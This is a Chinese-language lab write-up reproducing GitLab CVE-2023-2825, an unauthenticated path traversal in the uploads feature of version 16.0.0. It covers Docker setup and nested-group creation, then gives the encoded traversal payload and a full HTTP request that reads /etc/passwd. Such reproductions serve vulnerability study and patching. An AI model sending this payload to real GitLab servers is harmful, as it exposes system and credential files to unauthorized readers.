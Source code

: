 #  GitLab任意读取文件(CVE-2023-2825)

​	GitLab是一个用于仓库管理系统的开源项目，其使用Git作为代码管理工具，可通过Web界面访问公开或私人项目。GitLab CE/EE版本16.0.0中，当嵌套在至少五个组中的公共项目中存在附件时，可在未经身份验证的情况下通过uploads功能遍历读取任意文件，导致敏感信息泄露。



影响版本：

​	GitLab CE/EE版本：16.0.0

参考链接：

- https://nvd.nist.gov/vuln/detail/CVE-2023-2825
- https://gitlab.com/gitlab-org/gitlab/-/issues/412371

## 漏洞环境

执行如下命令启动一个GitLab-v16.0.0

```

docker pull gitlab/gitlab-ce:16.0.0-ce.0     # 拉取镜像
docker run -itd -p 8443:443 -p 8880:80 -p 222:22 --name gitlab2825   gitlab/gitlab-ce:16.0.0-ce.0     # 启动环境
```

## 漏洞复现

访问`http://your-ip:8880`使用用户名root 密码： 登录系统

![image-20240505134859751](./0.png)

登录密码获取如下，

docker exec -it  xxx bash  进入容器执行以下命令查看登录密码

![image-20240505121633743](./1.png)

创建项目，创建group.

![image-20240505121908806](./2.png)

添加项目之后 点击issus 添加附件，create issue

![image-20240505122047288](./3.png)

Create issue

![image-20240505122239976](./4.png)

点击图片跳转到

http://192.168.160.128:8880/group1/group2/group3/group4/group5/group6/group7/group8/group9/group10/group11/group12/group13/group14/group15/test2/uploads/70f261576eb3cd361f59173bd2c8a69b/1.png

将1.png替换成我们的payload

%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd

![image-20240505124559913](./5.png)

```
GET /group1/group2/group3/group4/group5/group6/group7/group8/group9/group10/group11/group12/group13/group14/group15/test2/uploads/7dfe4d7981912124ac1e0f2d599a0d84/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc%2fpasswd HTTP/1.1
Host: 192.168.160.128:8880
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.105 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: session=f368d9b4-14d9-4287-907c-5579c7559d1e.c9Wh3_S37WPJvNGOpx7JhuM3y8w; lang=zh-cn; vision=rnd; device=desktop; theme=default; preferred_language=en; known_sign_in=WDVia3lYUk5qbHZ0RHZVamloSHNLMDlHRnpaV0NlLzhPdXVzZ2xVNWV5SkZXMGFENjZaUEhDNGQ4Mk5VNmt0cjJ3b2RQRmVvL1R3S0RtdkdLK3dWeHJLalhVTWhzSmU5UmtNaTdEbmtiOWpDUHdmWGl4S3doTVYxd053SEF2N2QtLUxKRkhhSnlOajBUQlFQTEZmQmwzZ1E9PQ%3D%3D--e55bc276d713439c9e236036461952f94bd5cfee; _gitlab_session=057cb93e56f4937c8cce3031594a403f; sidebar_collapsed=false; 16.0.0-hide-alert-modal=true; event_filter=all
Connection: close


```

